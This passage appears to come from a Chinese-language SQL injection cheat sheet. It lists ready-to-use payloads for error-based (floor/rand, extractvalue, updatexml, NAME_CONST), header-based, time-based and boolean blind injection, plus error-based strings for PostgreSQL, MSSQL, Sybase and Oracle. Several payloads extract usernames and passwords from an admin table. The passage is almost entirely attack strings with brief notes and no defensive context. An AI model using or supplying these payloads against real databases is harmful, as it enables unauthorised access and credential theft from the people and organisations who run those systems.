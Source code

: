 		and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
		
2. ExtractValue(有长度限制,最长32位)

		and extractvalue(1, concat(0x7e, (select @@version),0x7e))
		or extractvalue(1,concat(0x7e,database())) or
		and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)))
		
3. UpdateXml(有长度限制,最长32位)

		and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
		and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
		
4. NAME_CONST(适用于低版本)

		and+1=(select+*+from+(select+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--

5. rand()

		
6. Error based Double Query Injection 

		(http://www.vaibs.in/error-based-double-query-injection/)
		/*数据库版本*/
		or+1+group+by+concat_ws(0x7e,version(),floor(rand(0)*2))+having+min(0)+or+1 

	
###http头注入

1. http头注入之X-Forwarded-For
2. http头注入Client-IP
3. http头注入之x-remote-IP
4. http头注入之x-originating-IP
5. http头注入之x-remote-addr

###盲注
1. 盲注之基于时间延迟sleep/benchmark
		select 1 from te where if(1=1,sleep(1),1) limit 0,1;
		' or sleep(ord(substr(password,1,1))) --
		select sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8,9,.'));
2. 盲注之基于boolean
		select 123 from dual where 1=1
		select 123 from dual where 1=0;
		http://192.168.1.1/1.php?id=1' and length(database())=8 %23
		http://192.168.1.1/1.php?id=1' and left(database(),1)<'t' %23
		http://192.168.1.1/1.php?id=1' and ascii(substr(select(database()),2,1))>100%23
		select 1 from te order by if(1,1,(select 1 union select 2)) limit 0,3;
		select 1 from te order by if(0,1,(select 1 union select 2)) limit 0,3;
		IF(expr1,expr2,expr3),expr1是判断条件，expr2和expr3是符合expr1的自定义的返回结果
3. 盲注之errorbased
		select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
		select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)		
		select 1,2 union select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
		select * from article where id = 1 and extractvalue(1, concat(0x5c,(select pass from admin limit 1)));
		select * from article where id = 1 and 1=(updatexml(1,concat(0x5e24,(select pass from admin limit 1),0x5e24),1));  
		其他数据库：
			PostgreSQL: /?param=1 and(1)=cast(version() as numeric)-- 
			MSSQL: /?param=1 and(1)=convert(int,@@version)-- 
			Sybase: /?param=1 and(1)=convert(int,@@version)-- 
			Oracle >=9.0: /?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select 
			replace(banner,chr(32),chr(58)) from sys.v_$version where rownum=1)||chr(62))) from dual)--
				